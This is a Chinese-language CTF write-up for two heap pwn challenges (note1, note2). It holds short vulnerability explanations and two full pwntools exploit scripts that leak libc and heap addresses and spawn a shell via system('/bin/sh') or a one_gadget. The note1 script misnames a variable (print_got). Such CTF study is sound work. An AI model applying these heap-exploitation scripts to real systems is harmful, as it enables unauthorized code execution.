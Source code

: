 ```yaml
---
title: 2022 柏鹭杯 pwn Writeup
date: 2022-09-16 06:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=45/
pin: false
---
```


## note1

![image-20220916152727115](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916152727115.png)

漏洞点在3功能call会引用一个放在堆上的show功能的地址，以及放在堆上参数

![image-20220916152740387](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916152740387.png)

在edit_name功能中将堆块释放后未置空就再次申，导致了堆叠

![image-20220916153013589](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916153013589.png)

利用edit将管理结构体中的堆块地址换成got表的地址泄露libc，再将用同样的方式把ptr+8换成system，ptr换成/bin/sh即可

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import os
import hashlib
from hashlib import sha256

context.log_level = "debug"
context.arch = "amd64"
# context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0','--title', 'gdb', 'bash', '-c']
context.terminal = ['tmux', 'splitw', '-h']

# p = remote("","")
p = process("./note1")
elf = ELF("./note1")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
ia      = lambda                    :p.interactive()
hs256   = lambda data               :sha256(str(data).encode()).hexdigest()
l32     = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
l64     = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
uu32    = lambda                    :u32(p.recv(4).ljust(4,'\x00'))
uu64    = lambda                    :u64(p.recv(6).ljust(8,'\x00'))
int16   = lambda data               :int(data,16)
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------
def add(idx,size,name,tag,func):
    sla("> ",1)
    sla("id: ",idx)
    sla("name_length: ",size)
    p.sendlineafter("name: ",name)
    p.sendlineafter("tag: ",tag)
    sla("func: ",func)

def edit_name(idx,size,name):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",1)
    sla("name_length: ",size)
    p.sendlineafter("name: ",name)

def edit_tag(idx,tag):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",2)
    p.sendafter("new tag: ",tag)

def edit_func(idx,func):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",3)
    sla("func: ",func)  

def call(idx):
    sla("> ",3)
    sla("id: ",idx)

add(0,0x500,'b'*0x100,'', 1)
edit_tag(0,'a' * 8)
edit_func(0, 1)
call(0)
p.recvuntil("aaaaaaaa")
base = uu64()-0x131b
lg('base')
printf_got = base + 0x3FA8

edit_name(0, 0x17, '')
add(1,0x17,'','',1)
edit_name(0, 0x101,'b'*0x20 + p64(0) + p64(base + 0x131b)+p64(print_got))
call(1)
ru("name: ")
libc_base = l64()-0x61c90
lg('libc_base')
system = libc_base + 0x52290
edit_name(0, 0x101,'b' * 0x20 +'/bin/sh\x00' + p64(system))
call(1)
ia()
```

## note2

有2种方法，具体分析可看第一种方法，用house of banana求解：

[https://blog.e4l4.com/posts/IO%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#note2](https://blog.e4l4.com/posts/IO%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#note2)

第二种方法是利用任意地址写去修改程序的基地址(link_map)，程序返回时会调用的fini_array数组里的内容，导致触发one_gadget

![image-20220922151335506](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220922151335506.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import os
import hashlib
from hashlib import sha256

# context.log_level = "debug"
context.arch = "amd64"
context.terminal = ['tmux', 'splitw', '-h']

# p = remote("39.101.69.5","12032")
# p = process('./ld-2.33.so ./TinyNote'.split(),env={'LD_PRELOAD':'./libc-2.33.so'})
p = process("./note2")
elf = ELF("./note2")
libc = ELF("./libc.so.6")

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
ia      = lambda                    :p.interactive()
hs256   = lambda data               :sha256(str(data).encode()).hexdigest()
l32     = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
l64     = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
uu32    = lambda                    :u32(p.recv(4).ljust(4,'\x00'))
uu64    = lambda                    :u64(p.recv(6).ljust(8,'\x00'))
int16   = lambda data               :int(data,16)
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

def add(idx,size,con=''):
    sla("> ",1)
    sla("> ",idx)
    sla("> ",size)
    p.sendlineafter("Enter content: ",con)

def show(idx):
    sla("> ",3)
    sla("> ",idx)

def dele(idx):
    sla("> ",2)
    sla("> ",idx)


for i in range(10):
    add(i,0x90)
for i in range(8):
    dele(i)
show(7)
libc_base = l64()-0x219ce0
lg('libc_base')
link_map = libc_base+0x2712e0

show(0)
key = u64(p.recv(5).ljust(8,'\x00'))
lg("key")
heap_base = key<<12
lg("heap_base")

dele(8)
add(0,0x90)
dele(8)

add(1,0xc0,'a'*0xa0+p64((link_map)^key))
add(2,0x90,p64(libc_base + 0xebcf1))# +0x7a0
add(3,0x90,p64(heap_base+0x7a0-0x3d78))
sla("> ",4)

ia()
```



